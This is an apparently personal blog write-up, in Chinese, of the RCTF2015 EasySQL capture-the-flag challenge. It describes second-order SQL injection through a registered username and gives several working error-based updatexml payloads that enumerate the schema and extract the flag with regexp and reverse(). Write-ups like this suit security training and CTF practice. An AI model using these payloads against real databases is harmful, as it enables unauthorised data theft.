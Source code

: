 ```yaml
---
title: '[RCTF2015]EasySQL'
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg'
authorAbout: steamID：888007034
authorDesc: 'Blizzard：TroyeSivan#51769'
categories: 技术
comments: true
date: 2020-08-14 20:58:25
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1095473.png
---
```

这次真长记性了，看到修改密码的我tm直接二次注入。
注册用户名为1"的账号，修改密码时报错：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/dbdzbzdb.jpg)

猜测后台sql语句:

update users set password='xxxx' where username="xxxx" and pwd='c4ca4238a0b923820dcc509a6f75849b'
因为存在报错回显，那么就可以直接用报错注入

test"^updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))),1)#

test"^updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name='flag'))),1)#

test"^updatexml(1,concat(0x7e,(select(group_concat(flag))from(flag))),1)#

但是是个假flag，真flag在user表
可以用regexp正则来匹配
regexp('^r')是MySql的正则，^r匹配开头是r的字段，也就是column_name=real_flag_1s_her

test"^updatexml(1,concat(0x3a,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users')&&(column_name)regexp('^r'))),1)#

正序逆序输出完整flag：

test"^updatexml(1,concat(0x3a,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))),1)#

test"^updatexml(1,concat(0x3a,reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f')))),1)#


